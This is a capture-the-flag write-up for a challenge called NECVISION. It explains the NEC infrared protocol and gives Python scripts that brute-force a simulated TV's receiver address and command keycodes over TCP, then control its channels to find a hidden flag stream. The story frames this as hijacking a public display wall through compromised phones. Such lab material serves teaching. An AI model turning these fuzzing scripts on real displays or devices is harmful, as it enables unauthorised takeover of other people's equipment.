








       <font size="10">NECVISION</font>

30<sup>th</sup> March 2026

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=green>Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- Fuzzing and scripting using the NEC protocol to hijack a TV simulator

## Description

Task Force Nightfall has temporary control of compromised phones scattered through a major public event, each one capable of acting as an IR blaster. Rival operators are using the venue's NECVISION display wall as a propaganda channel, hijack the control path, suppress their broadcast, and force the screens onto our own feed before the narrative locks in.

## Skills Required

- Basic understanding of TCP/HTTP
- Basic scripting and fuzzing skills
- Basic understanding of the NEC protocol

## Skills Learned

- Hijacking infrared controlled devices

## Application Overview

The challenge seems to be exposing 2 different ports, one plain TCP and one HTTP.



Navigating to the UI we can see a web simulation of a TV, it's brand is called NECVISION. We can interpret this as a hint that the TV is controlled through  the NEC protocol.

## NEC Infrared Protocol

The `NEC protocol` is a widely used infrared (IR) remote control communication standard developed by NEC (Nippon Electric Company) in the early `1980s`. It defines how binary data is modulated into IR light pulses so that a receiver can decode commands from a remote.

The NEC infrared protocol sends commands from a remote control by `flashing an infrared LED at 38 kHz`. This flicker is too fast for the human eye, but the receiver is tuned to it, so it can easily tell a real signal from background light.

[https://www.sbprojects.net/knowledge/ir/nec.php](https://www.sbprojects.net/knowledge/ir/nec.php)

Every message starts with a `leader`, a `long ON burst` followed by a `pause`, acts as a sync/initiation message for the reciever device. After that, each bit is represented by the same short `ON pulse`, but the gap afterwards determines if it's a `0` or a `1`.



Example:

```vbnet
Leader:   ON 9ms   OFF 4.5ms
Data bit: ON 562µs OFF 562µs   = 0
          ON 562µs OFF 1.687ms = 1
```

Example of communication for bits `1010`.

```markdown
|¯¯¯¯¯¯¯¯|                |¯|      |¯|         |¯|      |¯|         
         9ms   4.5ms       562µs   1.687ms     562µs    562µs
```

### NEC Frames

The most common frame format for NEC communication is a 32bit frame consisting of an 8bit receiver address ranging from `0x00`-`0xFF`, followed by it's 8bit bitwise inversed value, that followed by an 8bit command keycode ranging from `0x00`-`0xFF` and the 8bit inversed value of it.

Frame Structure:

```
[8bit Address] [Bitwise Inverse Address] [8bit Command] [Bitwise Inverse Command]
```

The inverted bytes act as a simple error check.

Each device model listens to a speciffic receiver address and ussually there is an internal mapping of the command keycodes and their assigned functionality,although there is alot of public documentation and reverse-engineering efforts to revovering mappings due to the simplicity of the protocol. Additionally alot of OEM and off-brand devices use welll-known keycodes.

[https://github.com/Lucaslhm/Flipper-IRDB/tree/main](https://github.com/Lucaslhm/Flipper-IRDB/tree/main)

Based on this info we can begin trying to enumerate our TV, there are more formats than the standard 32bit NEC frame like the extended NEC frame format which utilizes 16bit addresses and removes the inverse check for them, but we will stick to 8bit addresses and 8bit commands for now.

## Interacting with the TV

We can assume that the TCP service expects a raw `32-bit NEC frame`:

```
[ Address ][ ~Address ][ Command ][ ~Command ]
```

We don't need to modulate anything here because the server already expects the decoded bytes. Example minimal client:

```python
import socket

HOST, PORT = "127.0.0.1", 1337

def frame(addr, cmd):
    return bytes([addr & 0xFF, (~addr) & 0xFF, cmd & 0xFF, (~cmd) & 0xFF])

with socket.create_connection((HOST, PORT), timeout=1.0) as s:
    s.sendall(frame(0x12, 0x17))
```

If the address is wrong, the TV ignores it. If the command or its inverse is wrong, the packet is discarded. This gives us a range to begin with for doing some fuzzing.

## Fuzzing for the receiver address

After researching online and discovering OEM NEC TV controllers commonly use `0x45` as `POWER`. We can iterate all `0x00`-`0xFF` addresses and send the `POWER command`, then watch if the UI state toggles power. If we `accidentally switch the TV off`, we can derive the correct receiver address. This can be done with any other valid command keycode, though it might take some additional time to fuzz for them but as long as the TV state changes we can derive a valid address.

```python
import json, socket, time, urllib.request

HOST, PORT = "127.0.0.1", 1337
HTTP = "http://127.0.0.1:5000"
TIMEOUT = 0.25

def frame(addr, cmd):
    return bytes([addr & 0xFF, (~addr) & 0xFF, cmd & 0xFF, (~cmd) & 0xFF])

def get_state():
    with urllib.request.urlopen(f"{HTTP}/api/state", timeout=1.0) as r:
        return json.load(r)

def wait_change(prev, fields=("power", "input_index","channel","volume","muted"), timeout=TIMEOUT):
    end = time.time() + timeout
    while time.time() < end:
        cur = get_state()
        if any(cur[f] != prev[f] for f in fields):
            return cur
        time.sleep(0.05)
    return None

def discover_address():
    with socket.create_connection((HOST, PORT), timeout=1.0) as s:
        for addr in range(0x00, 0xFF):
            prev = get_state()
            s.sendall(frame(addr, 0x45))  # probe with POWER
            cur = wait_change(prev)
            if cur:
                # restore power if needed
                if prev["power"] and not cur["power"]:
                    s.sendall(frame(addr, 0x45))
                    wait_change(cur, fields=("power",))
                print(f"[+] NEC address: 0x{addr:02X}")
                return addr
    return None

addr = discover_address()
print(addr)
```



For this TV the address is `0x42` (66).

## Fuzzing for valid commands

Next for a given address, we must find which commands mutate which field.

```python
import json, socket, time, urllib.request

HOST, PORT = "127.0.0.1", 1337
HTTP = "http://127.0.0.1:5000"
TIMEOUT = 0.25

def frame(addr, cmd):
    return bytes([addr & 0xFF, (~addr) & 0xFF, cmd & 0xFF, (~cmd) & 0xFF])

def get_state():
    with urllib.request.urlopen(f"{HTTP}/api/state", timeout=1.0) as r:
        return json.load(r)

def wait_change(prev, fields=("power", "input_index","channel","volume","muted"), timeout=TIMEOUT):
    end = time.time() + timeout
    while time.time() < end:
        cur = get_state()
        if any(cur[f] != prev[f] for f in fields):
            return cur
        time.sleep(0.05)
    return None

def discover_cmd_for_field(addr, target_field):
    with socket.create_connection((HOST, PORT), timeout=1.0) as s:
        for cmd in range(0x00, 0x100):
            before = get_state()
            s.sendall(frame(addr, cmd))
            after = wait_change(before, fields=(target_field,"power"))
            if after:
                # Recover power if we accidentally turned it off
                if before["power"] and not after["power"]:
                    s.sendall(frame(addr, cmd))
                    wait_change(after, fields=("power",))
                if before[target_field] != after[target_field]:
                    print(f"[+] {target_field}: 0x{cmd:02X} ({before[target_field]} -> {after[target_field]})")
                    return cmd
            else:
                # Also handle the case where change didn’t hit target_field but power got toggled silently
                cur = get_state()
                if before["power"] and not cur["power"]:
                    s.sendall(frame(addr, cmd))
                    wait_change(cur, fields=("power",))
    return None

addr = 0x42  # from step 2 (example)

KEYCODES = {}
for field in ("channel","input_index","volume","muted","power"):
    cmd = discover_cmd_for_field(addr, field)
    if cmd is not None:
        KEYCODES[field] = cmd

print(KEYCODES)
```

We send each cmd `0x00–0xFF`, poll `/api/state` briefly, and record deltas, if the state changes we correlate that state change to the sent command keycode. If the power is turned off accidentally by sending a POWER command, we send the same cmd to toggle it back.



As a side-effect we notice the TV UI starting to glitch out and alot of stuff being activated, this is normal.



After leaving the script running for a while we are able to recover correct keycode values.

## Building a functional TV-controller

Now that we have found some of the command keycode values:

```json
{'channel': 22, 'input_index': 27, 'volume': 20, 'muted': 70, 'power': 69}
```

We can begin manually controlling the TV.

Changing a channel:

```python
import socket, time

HOST, PORT = "127.0.0.1", 1337

ADDR = 0x42         # receiver address
CMD_CH_PLUS = 0x16  # CH+ keycode

def frame(addr, cmd):
    return bytes([addr & 0xFF, (~addr) & 0xFF, cmd & 0xFF, (~cmd) & 0xFF])

def change_channels(steps=10, delay=0.3):
    with socket.create_connection((HOST, PORT), timeout=1.0) as s:
        for _ in range(steps):
            s.sendall(frame(ADDR, CMD_CH_PLUS))
            print("[*] Sent CH+")
            time.sleep(delay)

if __name__ == "__main__":
    change_channels()
```

This simple script will loop through 10 channels.

## Scanning all channels and inputs to find the hidden stream

Since changing a channel results to a new stream/gif file on the HTTP api.



This means we can enumerate all channels, and count the occurences of the streams. The stream with the less occurences (not only 1 due to possible network/server state mismatches) should be our flag.




